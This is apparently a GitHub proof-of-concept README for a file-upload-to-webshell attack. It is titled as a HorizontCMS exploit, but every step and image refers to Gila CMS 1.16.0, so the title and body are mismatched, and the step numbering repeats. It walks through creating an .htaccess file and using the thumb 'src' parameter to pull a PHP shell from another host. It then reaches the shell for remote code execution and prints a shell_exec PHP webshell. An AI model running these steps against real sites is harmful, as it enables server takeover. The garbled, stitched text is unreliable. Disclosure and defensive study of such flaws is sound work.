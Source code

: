# HorizontCMS-1.0.0-beta-shell-upload

Author: jkana
----

The vulnerable is in Theme's upload function.

1.Login as administrator or any users could change themes.

2.Create a zip file which have php shell inside. For example **shell.zip** with **shell.php** inside

![]()

2.Access to **http://IP/admin/theme/index** . For example:
```http://192.168.10.67:81/hcms/admin/theme/index```

![]()

3.Click **+File** and create **.htaccess**:

![](https://github.com/jkana/Gila-CMS-1.16.0-shell-upload/raw/main/Images/2.JPG)

4.Use this URL for downloading shell to gila's tmp directory **http://IP/lzld/thumb?size=600&src=SHELL_URL** .For example:
```http://192.168.0.105:1234/gila16/lzld/thumb?size=600&src=http://192.168.0.105:1234/files/shell.php```

5.We can check shell name with **http://IP/admin/fm?f=tmp/**

![](https://github.com/jkana/Gila-CMS-1.16.0-shell-upload/raw/main/Images/3.JPG)

6.Access to webshell and got RCE!

![](https://github.com/jkana/Gila-CMS-1.16.0-shell-upload/raw/main/Images/4.JPG)

----
# How to fix

Update to **Gila CMS 1.16.1**
----
## shell.php
```
<?php
$output = shell_exec('ipconfig');
echo "<pre>$output</pre>";
?>
```
